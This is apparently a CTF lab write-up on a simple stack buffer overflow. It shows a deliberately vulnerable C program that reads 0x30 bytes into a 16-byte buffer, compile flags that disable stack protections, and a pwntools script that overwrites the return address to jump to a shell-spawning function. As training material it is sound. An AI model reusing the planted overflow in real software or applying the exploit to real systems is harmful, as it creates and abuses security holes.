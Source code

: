 ```yaml
---
title: Simple Buffer Overflow - 0x01
tags: [CTF, PWN, NTUSTISC]

---
```


# Simple Buffer Overflow - 0x01
###### tags: `CTF` `PWN`

Follow the concept of lecture [0x00](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/SJAt7Pd5s)

## Original Code
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void y0u_c4n7_533_m3()
{
    execve("/bin/sh", (char *[]){0}, (char *[]){0});
}

int main()
{
    char buf[16];
    puts("This is your first bof challenge ;)");
    fflush(stdout);
    read(0, buf, 0x30);
    system("pause");
    return 0;
}
```

The secret function is aim to create a shell, therefore, our main purpose is try to get the shell by using buffer overflow.
We can check `bof` in the main function that it read the string with length `0x30` that bigger than `buf` size.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
    ![](https://imgur.com/ehuCWTI.png)
    * Reference
    [pwn_resource](https://github.com/jwang-a/CTF/blob/master/TIPS/pwn_resource)

## Exploit
1. Tried to get the address of `y0u_c4n7_533_m3()` by using `objdump -d -M intel bof`. → `0x4011b6`
![](https://imgur.com/mlaNNCT.png)
2. Then we can construct the payload as below:
    ```python!
    from pwn import *
    r = process('./bof')
    magic_addr = 0x4011b6
    payload = b'a'*0x18 + p64(magic_addr)
    r.recvuntil(';)\n')
    r.send(payload)
    r.interactive()
    ```
3. Then we get shell!!!
    ![](https://imgur.com/Tug5Uii.png)